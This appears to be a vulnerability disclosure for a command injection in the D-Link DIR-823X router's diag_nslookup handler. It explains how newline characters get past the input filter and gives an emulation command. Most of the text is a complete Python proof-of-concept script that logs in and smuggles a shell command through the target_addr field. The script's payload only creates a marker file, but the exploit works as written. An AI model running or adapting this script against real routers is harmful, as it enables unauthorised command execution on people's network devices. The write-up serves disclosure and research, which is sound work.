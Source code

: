 # Dlink-dir-823x-diag_nslookup-target_addr-CommandInjection

﻿During my internship at Qi An Xin Tiangong Lab, I discovered a  command injection vulnerability in the Dlink-dir-823x router.

By analyzing the webs file in the bin directory, I found that the function 0x41710c contains a command injection vulnerability.

The command injection can be triggered by the target_addr key value, which leads to a system command injection.

![image-20250218162900520](https://gitee.com/xyqer/pic/raw/master/202502181629600.png)

Through the above code, it can be found that there is a command injection, and the prerequisite is to pass the verification of sub_415088.

![image-20250218154601625](https://gitee.com/xyqer/pic/raw/master/202502191007455.png)

Go in and find that this part is a loop, and it is necessary to ensure that each character passes the sub_414FF8 verification.

![image-20250218154730716](https://gitee.com/xyqer/pic/raw/master/202502191008485.png)

In fact, left and right parentheses, left and right curly braces, single quotes, semicolons, and ` cannot appear. Therefore, we use \n for command injection.

## How can we simulate a router

﻿Use the following command to simulate with qemu-aarch64-static.

Note that before this, it is necessary to ensure that the var/run folder exists. If it does not exist, create it.

```bash
sudo chroot ./ ./qemu-aarch64-static -- ./usr/sbin/goahead -f
```

﻿The content of the **poc.py** file is as follows:

```python
import requests
import logging
import argparse
import re
import hmac
import hashlib


logging.basicConfig(level=logging.DEBUG)


def extract_cookies_from_response(response):
    cookies = response.headers.get('Set-Cookie', '')
    sessionid = re.search(r'sessionid=([^;]+)', cookies)
    token = re.search(r'token=([^;]+)', cookies)
    sessionid = sessionid.group(1) if sessionid else None
    token = token.group(1) if token else None
    return sessionid, token

def send_get_login_page(session, host_ip):
    url = f"http://{host_ip}/login.html"

    headers = {
        "Host": host_ip,
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
        "Accept-Language": "en-US,en;q=0.5",
        "Accept-Encoding": "gzip, deflate",
        "Connection": "close",
        "Upgrade-Insecure-Requests": "1"
    }

    response = session.get(url, headers=headers)
    
    if response.status_code == 200:
        sessionid, token = extract_cookies_from_response(response)
        return sessionid, token
    else:
        logging.error("Failed to get login page.")
        logging.error(f"Status code: {response.status_code}")
        logging.error(f"Response: {response.text}")
        return None, None

def hash_password(password, token):
    hashed = hmac.new(token.encode(), password.encode(), hashlib.sha256).hexdigest()
    return hashed

def send_login_request(session, host_ip, username, hashed_password, sessionid, token):
    url = f"http://{host_ip}/goform/login"
    
    headers = {
        "Host": host_ip,
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0",
        "Accept": "*/*",
        "Accept-Language": "en-US,en;q=0.5",
        "Accept-Encoding": "gzip, deflate",
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
        "X-Requested-With": "XMLHttpRequest",
        "Origin": f"http://{host_ip}",
        "Connection": "close",
        # "Referer": f"http://{host_ip}/login.html",
        "Cookie": f"sessionid={sessionid}; token={token}"
    }
    
    payload = {
        "username": username,
        "password": hashed_password,
        "token": token
    }
    
    response = session.post(url, headers=headers, data=payload)
    
    return response

def send_diag_nslookup_request(session, host_ip, sessionid, token):
    url = f"http://{host_ip}/goform/diag_nslookup"
    
    headers = {
        "Host": host_ip,
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0",
        "Accept": "*/*",
        "Accept-Language": "en-US,en;q=0.5",
        "Accept-Encoding": "gzip, deflate",
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
        "X-Requested-With": "XMLHttpRequest",
        "Origin": f"http://{host_ip}",
        "Connection": "close",
        # "Referer": f"http://{host_ip}/login.html",
        "Cookie": f"sessionid={sessionid}; token={token}"
    }
    
    payload = {
        "target_addr": "\ntouch hack_diag_nslookup.txt\n",
        "token": token
    }
    
    response = session.post(url, headers=headers, data=payload)
    
    return response

def main():
    session = requests.session()

    parser = argparse.ArgumentParser(description='HTTP POST Request Example.')
    parser.add_argument('-H', '--host', metavar='host', default='192.168.0.1', help='Host IP address.')
    parser.add_argument('-u', '--username', metavar='Username', required=True, help='Login username.')
    parser.add_argument('-p', '--password', metavar='Password', required=True, help='Login password.')

    args = parser.parse_args()

    logging.info(f'Host IP: {args.host}')

    # Get login page
    sessionid, token = send_get_login_page(session, args.host)
    if sessionid and token:
        logging.info(f"GET login page request sent successfully. sessionid={sessionid}, token={token}")
        
        # Hash the password
        hashed_password = hash_password(args.password, token)
        
        # Send login request
        response = send_login_request(session, args.host, args.username, hashed_password, sessionid, token)
        if response.status_code == 200:
            logging.info("Login request sent successfully.")
            logging.debug(f"Response: {response.text}")
            
            # Extract updated sessionid and token from login response
            sessionid, token = extract_cookies_from_response(response)
            
            # Send LAN settings request
            response = send_diag_nslookup_request(session, args.host, sessionid, token)
            if response.status_code == 200:
                logging.info("LAN settings request sent successfully.")
                logging.debug(f"Response: {response.text}")
            else:
                logging.error("Failed to send LAN settings request.")
                logging.error(f"Status code: {response.status_code}")
                logging.error(f"Response: {response.text}")
        else:
            logging.error("Failed to send login request.")
            logging.error(f"Status code: {response.status_code}")
            logging.error(f"Response: {response.text}")
    else:
        logging.error("Failed to retrieve sessionid and token from login page.")

if __name__ == "__main__":
    main()
```

## Attack result

![image-20250218163128217](https://gitee.com/xyqer/pic/raw/master/202502181631696.png)

It can be seen that the successful creation of hack_diag_nslookup.txt means the attack is successful.